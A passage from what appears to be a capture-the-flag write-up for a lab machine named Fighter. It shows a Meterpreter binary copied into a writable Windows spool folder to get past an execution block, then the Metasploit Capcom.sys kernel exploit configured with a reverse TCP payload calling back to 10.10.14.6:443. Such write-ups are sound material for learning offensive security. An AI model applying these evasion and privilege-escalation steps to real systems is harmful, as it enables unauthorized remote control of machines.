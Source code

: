     
    
    PS C:\programdata> copy met met.exe
    copy : Access to the path 'C:\programdata\met.exe' is denied.
    At line:1 char:1
    + copy met met.exe
    + ~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (C:\programdata\met:FileInfo)  
       [Copy-Item], UnauthorizedAccessException
        + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsof 
       t.PowerShell.Commands.CopyItemCommand
    PS C:\programdata> copy met C:\windows\system32\spool\drivers\color\met.exe
    

The first one is blocked, but the second one works without issue. I can run
from there as well.

### MSF Capcom Exploit

#### Identify

With a meterpreter shell on Fighter, I can use the Metasploit Capcom exploit:

    
    
    msf6 exploit(multi/handler) > search capcom
    
    Matching Modules
    ================
    
       #  Name                                   Disclosure Date  Rank    Check  Description
       -  ----                                   ---------------  ----    -----  -----------
       0  exploit/windows/local/capcom_sys_exec  1999-01-01       normal  Yes    Windows Capcom.sys Kernel Execution Exploit (x64 only)
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/capcom_sys_exec
    
    msf6 exploit(multi/handler) > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    

#### OS Check

If I try to run this right away, it returns an error:

    
    
    msf6 exploit(windows/local/capcom_sys_exec) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:443 
    [-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
    [*] Exploit completed, but no session was created.
    

It’s not immediately clear what that means. I’ll find the source:
